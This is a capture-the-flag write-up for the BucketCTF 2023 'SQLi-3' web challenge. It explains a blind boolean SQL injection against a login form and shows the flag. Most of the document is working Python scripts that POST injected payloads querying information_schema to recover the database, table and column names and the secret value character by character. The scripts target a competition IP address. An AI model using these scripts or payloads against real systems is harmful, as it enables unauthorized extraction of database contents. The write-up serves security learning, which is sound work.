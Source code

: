 # SQLi-3 (BucketCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "Finally! I moved the secret into a COMPLETELY different table. There is NO way you can find it now."<br>
**Challenge points**: 290<br>
**CTF date**: ven, 07 Apr. 2023, 17:00 UTC — dom, 09 Apr. 2023, 17:00 UTC<br>

## Context

This challenge is about a blind SQL injection.


## Exploring the challenge

The web site consists of only one web page.

![Schermata_Iniziale](https://user-images.githubusercontent.com/66698256/230928012-41c691ab-475d-4cad-bf11-d2fb576a5751.png)

The data entered in this form are sent to the <code>/login</code> endpoint.

![Form](https://user-images.githubusercontent.com/66698256/230928060-0684512b-b64a-4923-b597-830479870598.png)

## Attack

We have to inject malicious data inside *Username* field (*Password* field is useless, can bet set to any value). As in the second challenge ([[1]](#1)) semicolons are blocked, but unlike this one queries' outputs are not shown. We can only know if a query ended succesfully or not. For example:

![Injection_Success](https://user-images.githubusercontent.com/66698256/230902891-c0a91a0e-8d02-49f6-b4ea-331e210af2c6.png)

![Success](https://user-images.githubusercontent.com/66698256/230902898-8066778c-14bc-443b-9e43-112030721592.png)

![Injection_Failure](https://user-images.githubusercontent.com/66698256/230902906-0e2549ae-e5b1-4ed7-a734-660696535c1a.png)

![Failure](https://user-images.githubusercontent.com/66698256/230902924-173ea1a0-4f69-41d9-905d-e835cc2d99a5.png)

Thus, the server returns nothing if the query is successful, the string <code>no</code> otherwise. We don't know nothing about the database, the tables inside, their names, their columns and the values stored inside. Despite that, we can rebuild the part of the database of our interest and extrapolate the flag. Let's start.<br>

The piece of code below is to know the length of the database name and the database name. It's not a foundamental step and can be omitted (because we'll use the <code>database()</code> function in the next steps).

```python
import requests



urlname="http://213.133.103.186:6026/login" #http://CONTAINER_IP:CONTAINER_PORT/login

no_string="no"

chars=["{","}","\_","a","b","c","d","e","f","g","h","i","j","k","l","m","n","o","p","q","r","s","t","u","v","w","x","y","z","A","B","C","D","E","F","G","H","I","J","K","L","M","N","O","P","Q","R","S","T","U","V","W","X","Y","Z","0","1","2","3","4","5","6","7","8","9","!"]#,">","<",":",";","!","@","_","-","+","?","$","#","&","=","*"]
#The underscore character ("_") is represented as "\_" because it is a wildcard in the SQL LIKE operator, so the backslash is useful to make SQL interpret it literally.

len_db_name=1
while True:
        sql_injection="' OR (SELECT LENGTH(database()))="+str(len_db_name)+"#"
        print ("[+]Try: "+sql_injection)
        response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'})    #Random Password
        if no_string not in response.text:
            break
        len_db_name=len_db_name+1
print ("[Found]The length of the database name is: "+str(len_db_name))

i=0
db_name=""
while i<len_db_name:
    for name_char in chars:
        sql_injection="' OR (SELECT SUBSTRING(database(),"+str(1)+","+str((i+1))+"))='"+str(db_name+name_char)+"'#"
        print ("[+]Try: "+sql_injection)
        response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'})    #Random Password
        if no_string not in response.text:
            db_name+=name_char
            break
    i=i+1
print ("[Found]The database name is: "+db_name)
```
By injecting <code>' OR CONDITION#</code> within the server query we can ensure that the query returns at least one tuple if and only if <code>CONDITION</code> is true. This is because the truncated condition from the injected input (usually <code>username=''</code>) will surely be false and <code>FALSE OR CONDITION</code> will be true if and only if the second one is true. Therefore, we can know if a condition is true by whether the query succeeds. In the first loop we will find out the length of the database name. In the second we will discover the name of the database, discovering each single character one at a time. Result:

![Len_DB_Name](https://user-images.githubusercontent.com/66698256/230913127-261100a4-9a0c-4e61-abeb-1508ea1738d5.png)


![DB_Name](https://user-images.githubusercontent.com/66698256/230913095-1045f760-f35a-46e2-83e7-c3e379ad8f16.png)


Now we'll find out the number of tables inside the database. So, we'll add the following code to the one above:

```python
tables_count=0
while True:
    sql_injection="' OR (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())="+str(tables_count)+"#"
    print ("[+]Try: "+sql_injection)
    response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'})    #Random Password
    if no_string not in response.text:
        break
    tables_count=tables_count+1
print ("[Found]The number of tables inside the database is: "+str(tables_count))
```
Let's run it:

![Number_Tables](https://user-images.githubusercontent.com/66698256/230913186-6a38c0f9-5f37-46fd-b708-0c9a0be46f1d.png)


There are two tables. Now we'll find the length of the first table name and the first table name (because the flag is in the first table). Let's add the following code to the ones above:
```python
len_table1_name=1
while True:
        sql_injection="' OR (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)="+str(len_table1_name)+"#"
        print ("[+]Try: "+sql_injection)
        response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'})    #Random Password
        if no_string not in response.text:
            break
        len_table1_name=len_table1_name+1
print ("[Found]The length of the first table name is: "+str(len_table1_name))


i=0
table1_name=""
while i<len_table1_name:
    for name_char in chars:
        sql_injection="' OR (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE '"+str(table1_name+name_char)+"%'#"
        print ("[+]Try: "+sql_injection)
        response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'})    #Random Password
        if no_string not in response.text:
            table1_name+=name_char
            break
    i=i+1
print ("[Found]The first table name is: "+table1_name) #The first table is 'Flag'!
```
Let's run it:

![Len_Flag_Table_Name](https://user-images.githubusercontent.com/66698256/230913373-524b3ac5-5714-46f2-9560-28c6c894e797.png)

![Flag_Table_Name](https://user-images.githubusercontent.com/66698256/230913407-a9248fc7-f4b9-4fb0-9ba5-9d3d019fe8a2.png)


The first table name is "Flag". Now we'll find out the number of columns inside "Flag" table. Let's add the following code to the ones above:
```python
table1_columns_count=1
while True:
        sql_injection="' OR (SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='"+table1_name+"')="+str(table1_columns_count)+"#"
        print ("[+]Try: "+sql_injection)
        response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'})    #Random Password
        if no_string not in response.text:
            break
        table1_columns_count=table1_columns_count+1
print ("[Found]The number of columns in the '"+table1_name+"' table is: "+str(table1_columns_count))
```
Let's run it:

![Number_Columns](https://user-images.githubusercontent.com/66698256/230913425-2264d97e-4c3b-4ddb-b0b6-0a90fe8d8dcc.png)


There are two columns. Now we'll find the length of the second column name and second column name (because the flag is in the second column). Let's add the following code to the ones above:
```python
len_column2_name=1
while True:
        sql_injection="' OR (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='"+table1_name+"' LIMIT 1,1)="+str(len_column2_name)+"#"
        print ("[+]Try: "+sql_injection)
        response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'})    #Random Password
        if no_string not in response.text:
            break
        len_column2_name=len_column2_name+1
print ("[Found]The length of the second column name of the '"+table1_name+"' table is: "+str(len_column2_name))

i=0
column2_name=""
while i<len_column2_name:
    for name_char in chars:
        sql_injection="' OR (SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='"+table1_name+"' LIMIT 1,1) LIKE '"+str(column2_name+name_char)+"%'#"
        print ("[+]Try: "+sql_injection)
        response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'})    #Random Password
        if no_string not in response.text:
            column2_name+=name_char
            break
    i=i+1
print ("[Found]The name of the second column of the '"+table1_name+"' table is: "+column2_name) #Column name: 'value'
```

Let's run it:

![Len_SecCol_Name](https://user-images.githubusercontent.com/66698256/230913461-fd3df1b7-db84-4769-846f-30508eb44db0.png)

![SecCol_Name](https://user-images.githubusercontent.com/66698256/230913487-1df21cd5-194c-4fff-bcc9-7a3b5ba2b215.png)


The second column name is "value". Now let's find the flag length and the flag itself. Let's add the following code to the ones above:
```python
len_flag=1
while True:
        sql_injection="' OR (SELECT LENGTH("+column2_name+") FROM "+table1_name+" LIMIT 0,1)="+str(len_flag)+"#"
        print ("[+]Try: "+sql_injection)
        response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'})    #Random Password
        if no_string not in response.text:
            break
        len_flag=len_flag+1
print ("[Found]The length of the flag is: "+str(len_flag))

i=0
flag_name=""
flag=""
while i<len_flag:
    for name_char in chars:
        sql_injection="' OR (SELECT "+column2_name+" FROM "+table1_name+" LIMIT 0,1) LIKE '"+str(flag_name+name_char)+"%'#"
        print ("[+]Try: "+sql_injection)
        response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'})    #Random Password
        if no_string not in response.text:
            flag_name+=name_char
            break
    i=i+1

flag=flag_name.replace("\_","_")
print ("[Found]The flag is: "+flag) #Flag
```
Let's run it:

![Len_Flag](https://user-images.githubusercontent.com/66698256/230913551-bf740320-4997-42e2-a7fe-7ed0796ca9e9.png)

![Flag](https://user-images.githubusercontent.com/66698256/230913577-72c2c974-6b60-4551-b961-06cddf2ace65.png)


Flag is <code>bucket{j01n5_m4k3_n0_53n53_a5ed15}</code>.

## References
<a id="1">[1]</a> 
https://github.com/H31s3n-b3rg/BucketCTF_2023/blob/main/SQLi/SQLi-2/README.md
